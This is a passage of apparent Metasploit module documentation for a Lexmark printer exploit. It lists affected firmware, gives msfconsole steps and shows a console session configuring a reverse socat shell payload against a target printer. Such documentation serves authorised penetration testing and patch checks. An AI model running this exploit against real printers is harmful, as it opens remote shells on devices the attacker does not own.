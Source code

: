 | CS720, CS725, CS727, CS728 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| C4150 | CSTAT.081.232 and previous | CSTAT.081.233 and later |
| CX725, CX727 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| XC4140, XC4143, XC4150, XC4153 | CXTAT.081.232 and previous | CXTAT.081.233 and later |
| CS921, CS923, CS927 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| C9235 | CSTMH.081.232 and previous | CSTMH.081.233 and later |
| CX920, CX921, CX922, <br/>CX923, CX924 | CXTMH.081.232 and previous | CXTMH.081.233 and later |
| XC9225, XC9235, XC9245, <br/>XC9255, XC9265 | CXTMH.081.232 and previous | CXTMH.081.233 and later |

## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/lexmark_faxtrace_settings`
1. Do: `set RHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### SLEEP

If the printer has been inactive for some time it might be sleeping, in which case it's best to send a request
or two to wake it up before running the check method or exploit. This parameter indicates how to to wait for the printer
to wake up.

## Scenarios

### Lexmark Printer MC3224 CXLBL.073.023
```
msf > use linux/http/lexmark_faxtrace_settings
[*] Using configured payload cmd/unix/reverse_socat_tcp
msf exploit(linux/http/lexmark_faxtrace_settings) > set rhosts 192.168.1.71
rhosts => 192.168.1.71
msf exploit(linux/http/lexmark_faxtrace_settings) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf exploit(linux/http/lexmark_faxtrace_settings) > options

Module options (exploit/linux/http/lexmark_faxtrace_settings):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.71     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SLEEP    10               yes       Sleep time to wait for the print to wake
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_socat_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.72     yes       The listen address (an interface may be specified)
```